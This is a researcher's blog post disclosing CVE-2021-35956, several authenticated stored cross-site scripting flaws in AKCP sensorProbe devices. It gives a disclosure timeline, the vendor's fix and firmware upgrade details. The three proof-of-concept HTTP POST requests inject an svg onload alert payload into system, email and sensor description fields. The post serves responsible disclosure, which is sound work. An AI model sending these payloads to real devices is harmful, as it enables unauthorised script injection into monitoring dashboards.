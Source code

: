 ```yaml
---
title: CVE-2021-35956 AKCP sensorProbe - 'Multiple' Cross Site Scripting (XSS)
description: Getting my first CVE vulnerability assigned 🎉
featured: true
feature-header: "Featured Research \U0001F447"
tag: Vulnerability Research
image: "/assets/img/posts/2021-06-28-CVE-2021-35956/preview.png"
layout: post
date: '2021-06-28 00:01:21 -0400'
last-updated: '2021-06-28 00:01:21 -0400'
style: blog1
author: Tyler Butler
lead: Getting my first CVE vulnerability assigned 🎉
card: card-2
postid: 1
redirect_from:
- "/CVE-2021-35956"
navheader: posts
---
```


This week, I was incredibly fortunate to finally get my first CVE vulnerability assigned by Mitre 🎉 ! <a href="https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-35956" class="highlighted">CVE-2021-35956</a> details multiple stored cross-site scripting (XSS) vulnerabilities I discovered in the AKCP sensorProbe embedded webserver. In this post, I'll describe the technical details of the vulnerability, the vendor's response, and remediation options. Overall AKCP was an exceptional partner in the responsible disclosure process, remediating the issue quickly and providing me with a test unit to verify the updated firmware. 

####  **Index**  
+  [Disclosure Timeline]({{page.url}}#-disclosure-timeline)
+  [About the Vendor]({{page.url}}#-about-the-vendor)
+  [Vulnerability Details]({{page.url}}#-cve-2021-35956-vulnerability-details)
+  [Firmware Upgrade]({{page.url}}#-firmware-upgrade)

#### **⏱ Disclosure Timeline**

  <div class="timeline mt-1 mb-1">
      <div class="tl-item active">
          <div class="tl-dot b-warning"></div>
          <div class="tl-content">
              <div class="">I attempt to find a security contact at AKCP, could not do so, and contacted the sales team at sales@akcp.com</div>
              <div class="tl-date text-muted mt-1">29 May 2021</div>
          </div>
      </div>
      <div class="tl-item">
          <div class="tl-dot b-warning"></div>
          <div class="tl-content">
              <div class="">I recieve response from management, and release my responsible disclosure report</div>
              <div class="tl-date text-muted mt-1">29 May 2021</div>
          </div>
      </div>
      <div class="tl-item">
          <div class="tl-dot b-primary"></div>
          <div class="tl-content">
              <div class="">AKCP provides me a copy of beta test firmware for the fix</div>
              <div class="tl-date text-muted mt-1">15 June 2021</div>
          </div>
      </div>
      <div class="tl-item">
          <div class="tl-dot b-primary"></div>
          <div class="tl-content">
              <div class="">AKCP provides me an ip address for a test unit to verify the fix, I confirm the vulnerability has been fixed</div>
              <div class="tl-date text-muted mt-1">16 June 2021</div>
          </div>
      </div>
      <div class="tl-item">
          <div class="tl-dot b-primary"></div>
          <div class="tl-content">
              <div class="">AKCP releases updated <a href="http://www.akcp.in.th/downloads/Firmwares/SP480-20210624.zip" class="highlighted">firmware</a> on their website and updates their <a href="https://www.akcp.com/support-center/customer-login/sensor-probe-firmware-changelog/" class="highlighted">changelog</a> mentioning the XSS vulnerability</div>
              <div class="tl-date text-muted mt-1">25 June 2021</div>
          </div>
      </div>
      <div class="tl-item">
          <div class="tl-dot b-danger"></div>
          <div class="tl-content">
              <div class="">I submit a request for CVE through Mitre's <a href="https://cveform.mitre.org/" class="highlighted">submission form</a></div>
              <div class="tl-date text-muted mt-1">28 June 2021</div>
          </div>
      </div>
      <div class="tl-item">
          <div class="tl-dot b-danger"></div>
          <div class="tl-content">
              <div class="">Mitre reserves CVE-2021-35956 for the vulnerability </div>
              <div class="tl-date text-muted mt-1">29 June 2021</div>
          </div>
      </div>
    </div>

#### **💡 About the Vendor**  

<a href="https://www.akcp.com" class="highlighted">AKCP</a> is a sensor manufacturer developing network-based temperature, enviorment, and power monitoring devices. Their clients include big names like Nasa, Coca-cola, Toyota, Adobe, and much <a href="https://www.akcp.com/about-akcp-2/" class="highlighted">more</a>. Their most popular devices include the sensorProbe, securityProbe, and AKCPro Server. This research identifies multiple stored cross-site scripting vulnerabilities in all sensorProbe devices. According to <a href="https://www.akcp.com/akcp-products/sensorprobe-series/" class="highlighted">AKCP</a>, the sensorProbe devices are,

*"the worlds **most installed** Remote Environmental Sensor Monitoring Device ... deployed in a wide variety of industries including Data Center Environmental Monitoring, Warehouse Temperature Monitoring, Cold Storage Temperature Monitoring, Fuel / Generator Monitoring, and other Remote Site Monitoring applications."*



####  **🆘 CVE-2021-35956 Vulnerability Details**  

All sensorProbe devices prior to firmware version SP480-20210624 are vulnerable to authenticated stored cross-site scripting via the Sensor Description, Email, and System setting fields. Authenticated users can introduce arbitrary javascript through the vulnerable fields, and have payloads execute in the context of users who visit the sensorProbe embedded webserver dashboard. While stored XSS can be dangerous, this vulnerability requires the attacker to already be authenticated in order to store payloads. 

*The following section identifies proof of concepts for each vulnerable field*  

#### Stored Cross-Site Scripting via System Settings  

The sensorProbe embedded web server is vulnerable to authenticated stored cross-site scripting via the system name and system location parameters in system settings.

**Payload**: ``<svg/onload=alert`xss`>``

**Proof of Concept**  

```yaml
POST /system?time=32e004c941f912 HTTP/1.1
Host: [target]
Content-Length: 114
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://[target]
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://[target]/system?time=32e004c941f912
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

_SA01=System+Namer&_SA02=RDC&_SA03=Name<svg/onload=alert`xss`>&_SA04=1&_SA06=0&_SA36=0&_SA37=0&sbt1=Save
```  

<div class="row mt-3">
    <div class="center">
        <img class="img-fluid rounded z-depth-1" src="/assets/img/posts/2021-06-28-CVE-2021-35956/xss_0.png">
    </div>
</div>  


<div class="row mt-3">
    <div class="center">
        <img class="img-fluid rounded z-depth-1" src="/assets/img/posts/2021-06-28-CVE-2021-35956/xss-1.png">
    </div>
</div>  



#### 2) Stored Cross-Site Scripting via Email Settings  

The sensorProbe embedded web server is vulnerable to authenticated stored cross-site scripting via the mail from, mail to, and mail cc  parameters in email settings.  

**Payload**: ``<svg/onload=alert`xss`>``

**Proof of Concept**

```yaml
POST /mail?time=32e004c941f912 HTTP/1.1
Host: [target]
Content-Length: 162
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://[target]
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://[target]/mail?time=32e004c941f912
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close


_PS03=test@test.com&_PS04=test@test.com&_PS05_0=test@test.com&_PS05_1=test@test.comr&_PS05_3=<svg/onload=alert`xxss`>&_PS05_4=&sbt2=Save
```   

<div class="row mt-3">
    <div class="center">
        <img class="img-fluid rounded z-depth-1" src="/assets/img/posts/2021-06-28-CVE-2021-35956/xss_2x.png">
    </div>
</div>  

<div class="row mt-3">
    <div class="center">
        <img class="img-fluid rounded z-depth-1" src="/assets/img/posts/2021-06-28-CVE-2021-35956/xss_3.png">
    </div>
</div>  




#### 3) Stored Cross-Site Scripting via Sensor Description

The sensorProbe embedded web server is vulnerable to authenticated stored cross-site scripting via sensor settings description parameter for each of the sensor options. 


**Payload**: ``<svg/onload=alert`xss`>``

**Proof of Concept**  


```yaml
POST /senswatr?index=0&time=32e004c941f912 HTTP/1.1
Host: [target]
Content-Length: 55
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://[target]
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://[target]/senswatr?index=0&time=32e004c941f912
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: CPCookie=sensors=400
Connection: close

_WT00-IX="><svg/onload=alert`xss`>&_WT03-IX=2&sbt1=Save
```  

####  **🚀 Firmware Upgrade**  

As of Friday June 25th, SensorProbe users can upgrade their devices to SP480-20210624 according to AKCP standards outlined in the <a href="https://www.akcp.com/support-center/customer-login/sensorprobe-series-firmware-download/" class="highlighted">firmware download</a> page.  

```text
Firmware Update – Download – release date 28 June 2021
Latest Firmware – SP480-20210624
Note: To download files, right-click on the file and select “save as”
md5sum: 83f107f274ed6fda2cd5aa0f21935a98

IMPORTANT NOTE: The sensorProbe2 & SP8 units with the Atmega128 micro-controller (SPxxxi) do not support this firmware version. You can check your units micro-controller version in the web interface System page >> System Description. If you see an “I” after the firmware version (SPxxxi) then your unit is using the older Atmega128 micro-controller. Please see below for the latest firmware for your SP8 base unit.
```  


<div class="row mt-3">
    <div class="center">
        <img class="img-fluid rounded z-depth-1" src="/assets/img/posts/2021-06-28-CVE-2021-35956/changelog.png">
    </div>
</div>  



